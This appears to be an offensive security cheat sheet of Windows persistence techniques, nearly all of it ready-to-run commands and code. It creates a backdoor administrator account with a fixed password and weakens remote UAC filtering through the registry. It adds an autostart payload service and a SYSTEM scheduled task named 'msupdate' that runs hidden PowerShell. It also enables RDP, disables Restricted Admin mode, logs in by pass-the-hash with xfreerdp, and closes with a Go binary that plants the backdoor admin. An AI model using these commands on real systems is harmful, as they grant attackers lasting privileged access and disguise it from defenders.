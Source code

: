 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Background jobs

```powershell
$job = Start-Job { c:/ProgramData/file.exe -args }
```

_Receive output_

```powershell
Receive-Job -Job $job -Keep
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to star&#x74;_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```
